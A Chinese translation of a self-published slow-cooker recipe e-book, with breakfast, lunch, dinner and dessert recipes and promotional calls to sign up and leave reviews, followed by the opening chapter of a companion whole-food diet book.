我希望这个网站对你有用，也希望能在那里见到你！

*订阅我们在KindleBookSpot不断壮大的社区，以便在最好的书打折和免费时收到通知。*

# 慢炖锅食谱挑战

## 快速简单的慢炖锅食谱

底部免费报告中包含额外内容

还有更多免费和特价书籍，尽在 [KindleBookSpot.com](KindleBookSpot.com)

## 目录

- 引言
- 第1章：慢炖的好处
- 第2章：慢炖锅早餐食谱
- 第3章：慢炖锅午餐食谱
- 第4章：慢炖锅晚餐食谱
- 第5章：慢炖锅甜点食谱
- 结论

## 引言

我想感谢你，并祝贺你下载了《慢炖锅食谱挑战》这本书。

本书包含令人垂涎、易于制作且可以借助Crockpot（也就是慢炖锅）完成的食谱。

如果你有兴趣发现快速简单的慢炖锅食谱，请毫不犹豫地读完成本书的最后一章。你将有机会了解关于慢炖法的宝贵信息，学习如何用它来打造健康的生活方式，并在厨房中节省时间。

本书可以作为你慢炖烹饪的忠实指南，为你提供按一天三餐（即早餐、午餐和晚餐）分类的食谱。它还包含一个专门讲甜点的特别章节，这样你也可以满足自己的甜食爱好。

### 本书将为你提供：

- 早餐食谱
- 午餐食谱
- 晚餐食谱
- 以及甜点食谱

再次感谢你下载本书，希望你喜欢！

别忘了在底部看看我最喜欢的饮食法之一：

## 了解我如何通过3周饮食法快速减掉顽固多余脂肪的策略。

*前往底部了解更多信息，并领取你的免费报告和额外内容！*

## 开始之前……额外福利：获取我提供的更多免费视频和书籍！

感谢阅读我的书！希望你能从中获得很棒的价值。我想通过提供更多与健康相关的免费视频、书籍和信息来感谢你！

只需点击下面的链接，并在我的网站上输入你的电子邮箱地址！

如果你认真想要改变饮食和健康，你获得的一切都会对你有用。我将提供：

- 我写的更多书
- 制作特色菜肴的视频
- 关于我最喜欢的健康相关产品的信息
- 以及更多内容！

**_点击此处获取所有这些信息！_**

## 第 1 章：慢炖的好处

毫无疑问，Crock-Pot是市面上最著名的慢炖锅之一。过去几年里，越来越多的人尝试使用它，并在第一次体验后就爱上了它。慢炖锅，顾名思义，可以让人在较低温度下长时间烹饪。这种烹饪方法有许多独特的优点，你将在下面有机会了解。

慢炖锅的主要优点之一，是可以同时准备美味又营养的餐食。主要优势在于食物在较低温度下长时间烹饪，这能让食物保留营养。另一个优点是，蔬菜和肉类都在自身的天然汁液中烹饪，几乎不需要油或黄油。食物在自身汁液中烹饪，保证了相应食物的低脂肪含量。

当你决定让食物在慢炖锅中慢慢炖煮时，你就能确保所有健康的矿物质和维生素得以保留。这种烹饪方法不会造成营养流失，而这一说法在煎炸或煮沸时并不成立。同样，这是因为慢炖锅在低温下运行，确保食物经过长时间烹饪。事实上，所有借助慢炖锅准备的食物都风味十足——许多人认为，与烤箱或炉灶上烹饪的食物（后者常被认为烹饪过度）相比，它的味道好得不可思议。

如果你没有足够时间用其他方法烹饪，慢炖锅就像是救星。你唯一需要花时间的是把食材切成丁或切碎，否则慢炖锅会替你处理一切。一般来说，你可以依靠慢炖锅全天烹饪，让食物无人看管地慢慢炖煮。唯一的例外是，如果你的食谱需要牛奶或奶油，那必须在烹饪的最后一小时加入。不过，如果你决定掀开盖子，就必须在整个烹饪过程中至少增加20分钟。

大多数人认为慢炖锅适合冬季使用，因为室外温度降低时，人们需要温热的饭菜。然而，如果你花点时间想一想，慢炖锅其实一年四季都可以用来烹饪。想想你自己在夏天做饭，食物在烤箱里烹饪时，你大汗淋漓。慢炖锅让你在夏天也能准备美味饭菜，而不必求助于烤箱，给你本已炎热的家再添热度。

烹饪常常令人担忧，因为过程中会消耗多少能量。然而，有了慢炖锅，你不再需要担心这些问题，因为这种烹饪方法能保证减少能源消耗。众所周知，慢炖锅实际消耗的能源更少，尤其是与电烤箱相比。如果你比较两者的瓦数消耗和所需的烹饪时间，就会发现慢炖锅无疑是更经济的选择。

做饭时，几乎不可能不弄脏大量餐具，并在之后为此受苦，因为我们还得清洗它们。好吧，有了慢炖锅，清洗就再简单不过了。除了实际锅体（它相当容易清洗）之外，你可能还会

你只需要清洗制作过程中使用的砧板和刀具。对于某些食谱，你可能需要额外清洗一个平底锅，因为它可用于煎烤。至于慢炖锅，建议购买带有可拆卸陶瓷内胆的款式，因为这样清洁起来容易得多。

你可能没有想到这一点，但慢炖锅可以轻松地从一个地方搬到另一个地方。因此，如果你在旅行并且想自己做饭，你可以使用慢炖锅。同样，如果你想把慢炖锅带到邻居的聚会或其他任何地方也适用。它重量轻，易于携带，还能帮助你准备美味的餐点。此外，用慢炖锅烹饪的食物也很容易携带，只要让它冷却并保持盖好即可。

很多时候，食谱会失败，原因是肉质坚硬难以烹饪。使用慢炖锅，你可以烹饪较不嫩的肉块，而不用担心它们煮不熟。相反，你会感到惊喜，因为你会发现它们既嫩又多汁。许多人喜欢慢煮过程，因为他们意识到食物几乎不会被烧焦（始终在低温下烹饪）。

从实际角度来看，慢炖锅可以帮助你腾出烤箱或炉灶用于额外的烹饪或烘焙。这在圣诞节或其他节日尤其适用，当时需要在短时间内为大量人准备很多食物。

慢炖锅可以帮助你为家人准备健康的餐食。这不仅仅是指食物在自带汁液中烹饪。我们还谈到的是，慢炖锅创造的环境能确保细菌微生物的破坏率高于其他烹饪方法。

最后但同样重要的是，还有一个需要考虑的主要优势，那就是多样性。慢炖锅可用于大量食谱，其中炖肉、炖菜和各种汤类名列前茅。在接下来的章节中，你将发现一些最美味且易于准备的慢炖锅食谱。你准备好迎接这场烹饪挑战了吗？

## 第 2 章 : 慢炖锅早餐食谱

早餐是一天中最重要的一餐，而慢炖锅是完美的烹饪工具，因为它能帮助你准备美味的餐点开启新的一天。在本章中，你会找到许多令人垂涎的慢炖锅早餐食谱，旨在为你的每一天提供良好的开端。尽情阅读，不要犹豫尝试它们全部。另外，请记住，其中许多食谱可以在隔夜准备，这样早上就有早餐可以吃了。

### #1 早餐焗烤

时间：4 小时 30 分钟/8 小时 30 分钟（准备 30 分钟，烹饪 4 小时/8 小时）

制作份量：8-10 人份

配料：冷冻哈希棕土豆（1 袋 – 约 32 盎司）、培根（1 磅）、小洋葱（1 个）、碎切达奶酪（8 盎司）、切丁红甜椒（1/2 个）、切丁绿甜椒（1/2 个）、鸡蛋（12 个）、牛奶（1 杯）、盐和胡椒（适量）。

**如何准备：**
先将培根切成小块并在平底锅中烹饪。如果你想节省更多时间，可以使用已经煮好的培根。取出你的慢炖锅，先在底部加入一半的哈希棕土豆。然后，按以下特定顺序加入一半的以下配料：培根、洋葱、红甜椒和绿甜椒以及切达奶酪。这时要加入剩余的哈希棕土豆。继续加入上述配料的另一半。将鸡蛋与牛奶一起搅打，然后倒入焗烤上。按口味加盐和胡椒调味。用低温烹饪四小时，或用保温档烹饪八小时。享用！

### #2 苹果肉桂燕麦粥

时间：5 小时 15 分钟（准备 15 分钟，烹饪 5 小时）

制作份量：10 人份

配料：钢切燕麦（1 杯）、椰奶（1 杯半）、水（1 杯半）、苹果（2 个）、红糖（2 大勺）、椰子油（1 大勺）、肉桂（1 茶匙）、海盐（1/4 茶匙）；配料（可选）– 肉桂/红糖、切碎坚果（杏仁、山核桃、核桃）、新鲜水果（浆果、香蕉或苹果）。

**如何准备：**
先用油喷涂慢炖锅内部，确保覆盖所有表面。加入燕麦、椰奶、水、切丁苹果、红糖、肉桂、椰子油和海盐。确保它们混合均匀。用低温烹饪约 5 小时。食用前，让燕麦粥冷却。加入想要的配料，上桌享用！

### #3 早餐藜麦

时间：3 小时 5 分钟（准备 5 分钟，烹饪 3 小时）

制作份量：5 人份

配料：藜麦（1 杯）、杏仁奶（3 杯）、切碎枣（4 个）、南瓜籽（1/4 杯）、切丁苹果（1 个）、肉桂（2 茶匙）、肉豆蔻（1/4 茶匙）、香草精（1 茶匙）、盐（1/4 茶匙）

**如何准备：**
先将藜麦与剩余配料一起加入慢炖锅。确保烹饪混合物约三小时，直到所有液体被吸收。你也可以隔夜用低温烹饪八小时，这样早上就能准时享用早餐。享用！

### #4 肉桂卷

时间：2 小时 30 分钟（准备 30 分钟，烹饪 2 小时）

制作份量：10-12 人份

配料：面团 – 温水（1 杯半）、活性干酵母（1 大勺）、蜂蜜（2 大勺）、面粉（3 杯半）、盐（1 茶匙）；馅料 – 黄油（4 大勺）、糖（1/2 杯）、红糖（1/4 杯）、肉桂（1 大勺）；糖霜 – 黄油（2 大勺）、奶油奶酪（2 盎司）、香草（1 茶匙）、糖粉（3 杯）、牛奶（2-3 大勺）。

**如何准备：**
先将温水与酵母和蜂蜜混合在一个碗中。等待约五分钟后再加入面粉和盐。面团准备好后，从碗中取出，静置约十分钟以便发酵。取另一个碗，将普通糖、红糖和肉桂混合作为馅料。将面团切成块，涂抹软化的黄油，然后撒上肉桂糖混合物。形成肉桂卷并将其放置一旁。用油脂润滑慢炖锅并将肉桂卷放入其中。烹饪约两小时。在肉桂卷烹饪的同时，准备糖霜，将软化的黄油与奶油奶酪混合。加入香草并搅拌至光滑。逐渐加入糖和牛奶，确保它们融入混合物中。将糖霜加入温热的肉桂卷中并享用！

### #5 蔬菜煎蛋

总时间：2 小时 15 分钟（准备 15 分钟，烹饪 2 小时）

制作份量：4-6 人份

配料：鸡蛋（6 个）、牛奶（1/2 杯）、盐（1/4 茶匙）、现磨胡椒（适量）、蒜粉（1/8 茶匙）、辣椒粉（1/8 茶匙）、西兰花花蕾（1 杯）、红甜椒（1 个）、黄洋葱（1 个）、大蒜瓣（1 个）；装饰（建议）– 新鲜欧芹、切碎番茄或碎切达奶酪。

**如何准备：**
先给慢炖锅内部表面抹油。取一个碗，将鸡蛋与牛奶、蒜粉、辣椒粉、盐和胡椒一起搅打。将所得混合物放置一旁。下一步，将西兰花花蕾、切片红甜椒、切丁洋葱和大蒜加入慢炖锅中。也将蛋液加入慢炖锅。用高温烹饪约两小时。如果你想用切达奶酪作装饰，确保撒在煎蛋上并静置几分钟以便融化。你也可以用新鲜欧芹或番茄装饰。上桌享用！

## 第 3 章 : 慢炖锅午餐食谱

慢炖锅是准备美味午餐的完美工具，所以不要犹豫阅读本章并尝试这里建议的食谱。慢炖锅绝对派得上用场，如果你是一个忙碌的家庭，它可以帮助你在处理其他事情的同时准备午餐。它在节假日，全家人聚在一起享用你著名的午餐时也很有用。提前测试你的食谱总是最好，所以请做好准备迎接节假日带来的烹饪冒险。

### #1 蔬菜鹰嘴豆咖喱

时间：6 小时 10 分钟（准备 10 分钟，烹饪 6 小时）

制作份量：6 人份

配料：橄榄油（1 大勺）、切碎洋葱（1 杯半）、胡萝卜片（1 杯）、咖喱粉（1 大勺）、红糖（1 茶匙）、磨碎新鲜姜（1 茶匙）、大蒜瓣（2 个）、塞拉诺辣椒（1 个）、鹰嘴豆（3 杯）、烤土豆（1 杯半）、绿甜椒（1 杯）、青豆（1 杯）、盐（1/2 茶匙）、黑胡椒（1/4 茶匙）、红辣椒粉（1/8 茶匙）、切丁番茄（1 罐）、蔬菜汤（1 罐）、婴儿菠菜（3 杯）、椰奶（1 杯）、柠檬楔（6 个）。

**如何准备：**
先将切碎的洋葱与胡萝卜片一起煸炒，直到变软。将以下配料加入平底锅：塞拉诺辣椒、切碎大蒜瓣、新鲜姜、糖和咖喱粉。继续烹饪一分钟。将混合物放入慢炖锅。加入鹰嘴豆以及以下配料：烤土豆、绿甜椒、青豆、盐、黑胡椒和红辣椒、切丁番茄和蔬菜汤。用高温烹饪约六小时。完成后，加入婴儿菠菜和椰奶。搅拌至菠菜变软。配柠檬楔上桌。享用！


### #2 土豆胡萝卜炖鸡

总用时：4小时（准备30分钟，烹饪3个半小时）

份量：6人份

配料：洋葱（1又3/4杯）、烹饪喷雾（1）、小胡萝卜（2杯）、圆红土豆（6个）、鸡汤（1/2杯）、干白葡萄酒（1/2杯）、切碎的新鲜百里香（1汤匙）、蒜末（1茶匙）、盐（3/4茶匙）、现磨黑胡椒（1/2茶匙）、红椒粉（1茶匙）、鸡腿（6个）、橄榄油（1茶匙）。

制作方法：

首先在慢炖锅内壁喷上烹饪喷雾。然后，将切片洋葱、土豆和胡萝卜放入慢炖锅。将鸡汤与白葡萄酒、新鲜百里香和大蒜混合。把混合物倒入慢炖锅。用红椒粉、盐和胡椒的混合物裹匀鸡肉。在平底锅中将鸡肉煎至表面金黄，然后把它放在慢炖锅中的蔬菜上面。以低火烹饪约三个半小时。上桌时用新鲜百里香点缀。享用吧！

### #3 培根香醋羽衣甘蓝

用时：4小时15分钟（准备15分钟，烹饪4小时）

份量：5人份

配料：培根片（3片）、切碎的洋葱（1杯）、新鲜羽衣甘蓝（1包——16盎司）、盐（1/4茶匙）、蒜瓣（2瓣）、月桂叶（1片）、鸡汤（1罐——14.5盎司）、意大利香醋（3汤匙）、蜂蜜（1汤匙）。

制作方法：

首先用中火在平底锅中煎培根。煎脆后，切成小块或用手捏碎。下一步，将洋葱与羽衣甘蓝一起翻炒。将炒好的蔬菜放入慢炖锅，加入盐、蒜末、月桂叶和鸡汤。以低火烹饪约四小时。制作调味汁：将意大利香醋与蜂蜜混合。淋上调味汁并撒上培根。上桌享用！

### #4 咖喱猪肉配印度香米

用时：8小时10分钟（准备10分钟，烹饪8小时）

份量：6人份

配料：芥花籽油（1茶匙）、无骨猪里脊（1又1/2磅）、红土豆块（3又1/2杯）、切碎的洋葱（1杯）、切碎的红甜椒（1杯）、鸡汤（1/4杯）、面粉（2汤匙）、糖（1汤匙）、番茄酱（2汤匙）、新鲜姜（1汤匙）、盐（1又1/2茶匙）、咖喱粉（1茶匙）、孜然粉（1茶匙）、蒜瓣（2瓣）、椰奶（1/2杯）、印度香米（3杯）、香菜枝（可选）。

制作方法：

首先在平底锅中将猪里脊煎至棕色。然后，将以下配料放入慢炖锅：猪里脊、红土豆、洋葱、红甜椒、鸡汤、面粉、糖、番茄酱、新鲜姜、盐、咖喱粉、孜然粉和蒜瓣。确保它们充分混合，且面粉已溶解。以低火在慢炖锅中烹饪约八小时。在用餐前加入椰奶。配上温热的印度香米，并用香菜枝点缀。享用吧！

### #5 加勒比风味黑豆汤

用时：8小时15分钟（准备15分钟，烹饪8小时）

份量：8人份

配料：橄榄油（1汤匙）、切碎的红洋葱（2杯）、切丁的青甜椒（1杯）、切丁的红甜椒（1杯）、墨西哥辣椒（3汤匙）、蒜头（1个）、番茄酱（1/4杯）、蔬菜高汤（4杯）、干百里香（1茶匙）、孜然粉（1茶匙）、姜粉（1/2茶匙）、多香果粉（1/2茶匙）、红辣椒粉（1/4茶匙）、盐（1/8茶匙）、黑豆（2罐——15盎司）、椰奶（1/2杯）、新鲜香菜（1/2杯）、2个青柠（切成四瓣）。

制作方法：

首先在平底锅中炒切碎的红洋葱。将青甜椒和红甜椒加入锅中，然后加入切碎的墨西哥辣椒。炒几分钟，然后加入大蒜。加入番茄酱和一杯蔬菜高汤。将整个混合物转移到慢炖锅中。加入以下配料：三杯蔬菜高汤、干百里香、孜然粉、姜粉、多香果粉、红辣椒粉、盐和黑豆。以低火烹饪约八小时。在汤快好时加入椰奶。用新鲜香菜点缀，并配青柠角上桌。享用吧！

## 第 4 章：慢炖锅晚餐食谱

下班回家后，你最不想操心的事情就是晚餐。不过，有了慢炖锅，你只需在早上花几分钟准备好食材，就能做出一顿美味的晚餐。慢炖锅会在你上班或外出办事时把晚餐煮好。让我们来看看最美味的慢炖晚餐食谱吧！

### #1 南瓜啤酒慢炖鸡

总用时：8小时5分钟（准备5分钟，烹饪8小时）

份量：4人份

配料：鸡胸肉（4块）、安杜耶香肠（2根）、洋葱（1个）、红甜椒（2个）、番茄丁（14盎司）、青辣椒（4盎司）、辣酱（2汤匙）、辣椒粉（1汤匙）、烟熏红椒粉（1茶匙）、干百里香（2茶匙）、卡宴辣椒粉（1/2茶匙）、盐（1/4茶匙）、胡椒（1/4茶匙）、南瓜啤酒（12盎司）、水（1/4杯）、玉米淀粉（2汤匙，加入水中）、糙米（佐餐用）。

制作方法：

首先将切碎的洋葱放入慢炖锅。然后按以下顺序加入配料：切碎的红甜椒、切成四瓣的安杜耶香肠、番茄丁、青辣椒丁、辣酱、辣椒粉、烟熏红椒粉、干百里香、卡宴辣椒粉、盐和胡椒。下一步，加入鸡胸肉和南瓜啤酒。以低火烹饪约八小时。在用餐前半小时，加入与玉米淀粉混合的水并搅拌均匀。配糙米上桌享用！

### #2 香辣鸡肉配土豆

总用时：4小时5分钟（准备5分钟，烹饪4小时）

份量：4人份

配料：鸡胸肉（2磅）、土豆（8盎司）、胡萝卜（2根）、洋葱（1个）；酱汁——辣椒碎（3汤匙）、辣椒酱（2汤匙）、酱油（4汤匙）、味醂（2汤匙）、蜂蜜（2汤匙）、芝麻油（1汤匙）、蒜瓣（4瓣）、芝麻、葱。

制作方法：

取一个碗，加入酱汁的所有配料：辣椒碎、辣椒酱、酱油等。将鸡胸肉切成小块，与土豆、胡萝卜和洋葱一起放入慢炖锅。所有蔬菜都应切成大块。将酱汁浇在鸡肉和蔬菜上，确保所有食材充分混合。以低火烹饪约4小时。上桌前加入切碎的葱。撒上芝麻，配米饭上桌。享用吧！

### #3 烤蒜番茄汤

总用时：3小时35分钟（准备35分钟，烹饪3小时）

份量：6至8人份

配料：罗马番茄（2.5磅）、蒜头（1个）、橄榄油（1汤匙）、黄洋葱（1个）、罐装番茄（14盎司）、鸡汤（1/2杯）、盐（1茶匙）、现磨黑胡椒（1/2茶匙）、白砂糖（1茶匙）、红辣椒碎（1/4茶匙）、卡宴辣椒粉（1/4茶匙）、切碎的新鲜罗勒（2汤匙）、浓奶油（1/2杯）、阿西亚戈奶酪（4盎司）、罗勒（2汤匙）。

制作方法：

首先将烤箱预热至400华氏度。将大蒜用铝箔纸包好，加入少许橄榄油，放入烤箱烤约25分钟。将番茄放入沸水中（约3分钟）。在冷水中剥去番茄皮，去除番茄蒂后，将其放入慢炖锅。将烤好的大蒜与其余配料（浓奶油、阿西亚戈奶酪和罗勒除外）一起放入慢炖锅。以高火烹饪约三小时。蔬菜煮好后，将其与浓奶油和奶酪一起放入搅拌机（可以留一点奶酪作装饰）。将番茄汤盛入碗中，用奶酪和罗勒点缀后上桌。享用吧！

### #4 慢炖锅普罗旺斯杂烩

总用时：4小时（准备10分钟，烹饪3小时50分钟）

份量：6至8人份

配料：橄榄油（1/4杯）、红洋葱（2个）、土豆（3个）、蒜瓣（3瓣）、茄子（2个）、西葫芦（3根）、甜椒（4个）、番茄（3个）、波特贝罗蘑菇（4个）、白葡萄酒（1/4杯）、新鲜百里香叶（2汤匙）、意大利香醋（3汤匙）、犹太盐（适量）、现磨黑胡椒（适量）、玉米淀粉（2汤匙）。

制作方法：

首先将切碎的洋葱与切碎的土豆和蒜末一起翻炒。炒几分钟后转移到慢炖锅中。将以下配料加入慢炖锅：茄子、西葫芦、什锦甜椒、番茄、波特贝罗蘑菇、白葡萄酒和新鲜百里香叶。以低火烹饪三个半小时。之后，将慢炖锅调至高档，加入意大利香醋、犹太盐和现磨黑胡椒。将玉米淀粉与水（6汤匙）混合，把混合物加入慢炖锅。以高火再烹饪20分钟。上桌享用！


### #5 千层面

总时间：5小时30分钟（准备5分钟，烹饪5小时25分钟）

份数：5份

食材：碎牛肉（1/2磅）、意大利香肠（1/2磅）、盐（1½茶匙）、胡椒粉（1/2茶匙）、洋葱（1个）、意大利调味料（1茶匙）、欧芹（2汤匙）、大蒜粉（2茶匙）、伍斯特沙司（2汤匙）、番茄膏（6盎司）、番茄酱（29盎司）、砂糖（2汤匙）、水（2½杯）、千层面皮（8盎司）、切丝的马苏里拉奶酪（4杯）、白软干酪（1杯）、磨碎的帕玛森奶酪（1/2杯）。

制作方法：

首先，用中火将碎牛肉、意大利香肠和洋葱放入煎锅中煸炒至变色。然后向锅中加入以下食材：盐、胡椒粉、欧芹、大蒜粉、意大利调味料、伍斯特沙司、番茄膏和番茄酱、糖和水。充分混合，煮约20分钟。将 ¼ 的肉酱铺在慢炖锅底部。然后，在上面放 1/3 的千层面皮。将马苏里拉奶酪与白软干酪和帕玛森奶酪混合，铺 1/3 在千层面皮上。再重复同样的步骤两次。把剩下的肉酱铺在上面，再铺上马苏里拉奶酪（可选）。用低温慢炖约5小时。盛出享用！

## 第 5 章：慢炖锅甜点食谱

我们都喜欢吃甜点，但有时实在没时间亲自做。不过，有了慢炖锅，你就能以 100% 简单愉快的方式制作各式各样的甜点。请阅读下文，探索美味的慢炖锅甜点食谱吧！

### #1 桃子烤饼

总时间：3小时30分钟（准备15分钟，烹饪3小时15分钟）

份数：4-6份

食材：深红糖（6盎司）、燕麦片（3½盎司）、面粉（4盎司）、泡打粉（1/2茶匙）、多香果粉（1/2茶匙）、肉豆蔻粉（1/2茶匙）、犹太盐（1/4茶匙）、无盐黄油（1/4杯）、冷冻桃片（20盎司）。

制作方法：

取一个大碗，混合以下食材：红糖、燕麦、面粉、泡打粉、多香果粉、肉豆蔻粉和犹太盐。确保黄油在加入碗中之前已恢复到室温。充分混合食材，直到获得酥粒状质地。将桃片加入混合好的混合物中。用少许黄油涂抹慢炖锅内壁。将混合物放入慢炖锅，低温烹饪约3小时。盛出享用！

### #2 巧克力糖果

总时间：3小时25分钟（准备5分钟，静置20分钟，烹饪3小时）

成品：30-40颗糖果

食材：盐味干烤花生（2磅）、巧克力（4盎司）、半甜巧克力豆（2杯）、白色杏仁皮（2½磅）。

制作方法：

首先，将盐味干烤花生铺在慢炖锅底部。完成后，将巧克力、巧克力豆和白色杏仁皮一起放入慢炖锅。低温烹饪约三小时，期间不要搅拌。时间到后，用木勺搅拌，直到质地顺滑。用勺子将混合物分装到独立的纸杯蛋糕纸托中。待混合物冷却后，盛出享用！

### #3 甜美多汁浆果甜点

总时间：4小时40分钟（准备20分钟，静置20分钟，烹饪4小时）

份数：6-8份

食材：馅料——无盐黄油、玉米淀粉（1/4杯）、柠檬汁（2汤匙）、冷冻混合浆果（5½杯）、砂糖（2/3杯）；饼干顶——面粉（1¼杯）、砂糖（3汤匙）、泡打粉（1茶匙）、细盐（1小撮）、无盐黄油（4汤匙）、牛奶（3/4杯）、肉桂粉（1/4茶匙）；打发的酸奶油顶——淡奶油（1/2杯）、酸奶油（1/4杯）、糖粉（2汤匙）。

制作方法：

首先，在慢炖锅内壁涂抹油脂。然后，将玉米淀粉、柠檬汁和两汤匙水混合。将混合液与混合浆果和糖一起倒入慢炖锅。制作饼干顶：将面粉、两汤匙砂糖、盐和泡打粉混合。加入黄油，混合至酥粒状。加入牛奶，形成湿润面团。用勺子将面团加到慢炖锅中的浆果混合物上。将剩下的糖与肉桂混合，撒在面团上。高火烹饪3-4小时。食用前先冷却。制作顶料：将淡奶油与酸奶油和糖粉混合。盛出享用！

### #4 胡萝卜蛋糕

总时间：3小时10分钟（准备45分钟，烹饪2.25小时）

份数：12份

食材：糖（1杯）、鸡蛋（2个）、水（1/4杯）、植物油（1/3杯）、面粉（1½杯）、香草精（1茶匙）、泡打粉（1茶匙）、小苏打（1/2茶匙）、肉桂粉（1茶匙）、磨碎的胡萝卜（1杯）；顶料——奶油奶酪糖霜。

制作方法：

首先，将胡萝卜去皮并磨碎。完成后放在一旁备用。取一个碗，加入以下食材：糖、鸡蛋、水和油。充分混合后，加入面粉、泡打粉、肉桂粉和小苏打。将所有食材充分搅拌均匀，然后加入磨碎的胡萝卜。给慢炖锅涂抹油脂，将混合物放入其中。低温烹饪约两小时。当蛋糕中间变硬时，就说明烤好了。如果不确定，可以用牙签测试：将牙签插入蛋糕，如果烤好了，拔出时牙签是干净的。食用前先冷却。最后涂上奶油奶酪糖霜，盛出享用！

### #5 巧克力布朗尼

总时间：3小时40分钟（准备10分钟，烹饪3小时30分钟）

份数：11份

食材：细砂糖（125克）、泡打粉（1茶匙）、黑巧克力（110克）、无盐黄油（60克）、可可粉（30克）、牛奶巧克力（110克）、鸡蛋（3个）、海盐（1茶匙）、巧克力豆（125克）、核桃（100克）、普通面粉（160克）。

制作方法：

首先，给慢炖锅内壁涂抹油脂，并在底部铺上烘焙纸。取一个碗，混合以下食材：面粉、可可粉、盐和泡打粉。将黄油和巧克力（巧克力豆除外）放入微波炉融化。融化后，加入打散的鸡蛋和糖。加入面粉混合物，然后加入切碎的核桃和巧克力豆。将所有材料放入慢炖锅，烹饪约三个半小时。食用前先冷却。享用！

## 结论

再次感谢您下载本书！

我希望这本书能帮助您减轻体重，重新建立身体平衡。

下一步是保持您已经做出的健康选择，并重新在生活中找到快乐。

最后，如果您喜欢这本书，我想请您帮个忙：您愿意在亚马逊上为这本书留下评论吗？我们将不胜感激！

[点击此处，在亚马逊上为此书留下评论！](#)

**我希望尽可能多地触达读者，而更多评论将帮助我实现这一目标。谢谢您，祝您好运！**

**同时，请务必点赞我的 _[Facebook](#)_ 主页，加入关于健康和我的最新书籍的讨论！**

**如果您喜欢这本书，请阅读该系列中的下一本书……**

但等等，如果您还没有观看关于如何通过这份3周饮食计划减肥的重要视频，您可能想去看一看。[点击此处观看。](#)

谢谢您，祝您好运！

## 附赠：获得我更多免费视频和书籍！

感谢您阅读我的书！我希望您从中获得了巨大的价值。为了感谢您，我将为您提供更多与健康相关的免费视频、书籍和信息！

只需点击下面的链接，在我的网站上输入您的邮箱地址！

如果您真的想改变自己的饮食和健康，您将获得的所有内容都会对您有用。我将提供：

- 我写的更多书籍
- 特色菜肴制作视频
- 我最喜欢的健康相关产品信息
- 更多精彩内容！


点击这里获取所有这些信息！

如果你还没有看过，一定要去看看我的新网站 ***KindleBookSpot.com***。这是我一直在做的一个新项目，我真心希望它对读者有价值。我建这个网站，是因为想给你们一个更简单的方式，在一个地方找到最热门的折扣 Kindle 图书。以下是我的网站提供的一些内容：

- 畅销免费 Kindle 图书列表
- 打折的小说和非虚构类图书
- 每周一书
- 精选图书
- 在我的网站上推广你自己的书

这个网站不只是为读者服务，也是新锐作者在成为畅销书之前推广新书的地方。所以如果你想推广自己的书，去看看我的网站 ***KindleBookSpot.com***。

希望这个网站对你有用，也希望能在那儿见到你！

***KindleBookSpot.com***

# 14天全食物饮食计划

## 提升新陈代谢、能量与减重的全食物食谱

关于我最喜欢饮食法的额外信息

还有更多免费和特价图书，尽在 [KindleBookSpot.com](https://KindleBookSpot.com)

## 目录

- 引言
- 第1章：全食物指南
- 第2章：需要了解的关键理念
- 第3章：14天计划
- 第4章：早餐
- 第5章：午餐
- 第6章：晚餐
- 第7章：零食
- 结论

## 引言

我要感谢并祝贺你下载了这本书——《14天全食物挑战：*提升新陈代谢、能量与减重的全食物食谱*》。

本书包含经过验证的步骤和策略，帮助你感觉更健康、提升能量，并过上更快乐的生活方式。

为什么大多数人一想到健康和健身，第一反应就是感到气馁，表现得好像这个想法根本不存在？当然，我们不可能都成为健身专家，但如果你真的想恢复身材、感觉更好，有一些方法可以帮助你打造一直想要的身体。无论是减重还是获得更多能量，采用全食物饮食都是很好的开始。

虽然随着年龄增长，身体自然能量水平会下降，但这并不意味着你应该放弃健康目标。无论你处于人生哪个阶段，仍然有很多事情可以做来改善身心福祉，而阅读本书就是迈向一直想要的生活的第一步。

本书旨在教你如何通过全食物开始更健康、更环保的生活方式。这并不是一种帮助你快速减重、感觉更健康的流行风潮，而是鼓励你利用全食物做出更健康的生活方式选择，并在这个过程中重置你的生活方式。

### 本书将教你：

- 哪些食物应该成为你的朋友，哪些不应该
- 为什么你应该吃全食物
- 如何完成14天挑战
- 早餐、午餐、晚餐和零食食谱
- 以及更多内容！

那你还在等什么？今天就开始阅读，改变你的生活方式吧！

再次感谢你下载本书，希望你喜欢！

别忘了看看我最喜欢的饮食法之一，并了解我在文末用3周饮食法快速减掉顽固多余脂肪的策略。

## 开始之前……额外福利：获取我提供的更多免费视频和图书！

感谢阅读我的书！希望你能从中获得很棒的价值。我想通过提供更多与健康相关的免费视频、图书和信息来感谢你！

只需点击下面的链接，并在我的网站上输入你的电子邮箱地址！

如果你认真想要改变饮食和健康，你获得的一切都会对你有用。我将提供：

- 我写的更多图书
- 制作特色菜肴的视频
- 关于我最喜欢的健康相关产品的信息
- 以及更多内容！

点击这里获取所有这些信息！

## 第 1 章：全食物指南

### 什么是全食物饮食？

全食物饮食是一种通过排除不健康食物来帮助你改善健康并减重的计划。越来越多的人在与超重作斗争，遭受代谢功能障碍，并感到精力耗尽。饮食对我们的身体运作方式有巨大影响，而这正是全食物饮食所基于的核心理念。当你排除对你不利的食物类别，如糖、谷物或乳制品时，你就迈出了通往健康和最佳生活的第一步。

专家们对全食物饮食进行了组织安排，以确保成功。基本上，在短暂的一段时间内，你会从饮食中排除所有对你不利的食物。不再有激素功能障碍，不再有胃肠道紊乱，也不再有炎症。身体会愈合和恢复，新陈代谢会重新开始正常运作。你会感到焕然一新、充满能量，并开始以自然的方式减重。Whole30计划旨在改变你对食物的认知方式，帮助你发现健康选择，并忘记坏习惯或嘴馋。

既然有那么多饮食法，你自然会问自己，这种饮食法究竟有什么不同。想想看，它其实是一种排除性饮食，遵循起来很简单。由于你必须从饮食中排除某些食物类别，所以不允许作弊或放纵。很快，在你还没意识到之前，你就开始享受吃完整而简单的食物。因为归根结底，这才是你应该为自己身体考虑的燃料。

### 开始行动

一位智者曾说，改变从来都不容易。但这并不意味着你不能从中找到乐趣。全食物饮食背后的饮食哲学鼓励简单饮食，但即使是最简单的一餐也能带来巨大快乐。没有比现在更好的时机来获得灵感，让你在厨房里的创造力达到新高度。不要把时间浪费在纠结你不能吃的食物上，而要开拓新天地，探索新食谱，玩出花样。

正如你将在下一章看到的，建议你每次外出购物都带上清单。所以，当你开始走上这条路时，一定要记得坚持你的购物清单。一定要在清单上加入大量蔬菜，因为它们会成为许多餐食的一部分。当然，如果你看到一些特别的产品，比如漂亮的茄子或新品种茶叶，你可以稍微偏离清单。记住，仅限于你被允许食用的物品。

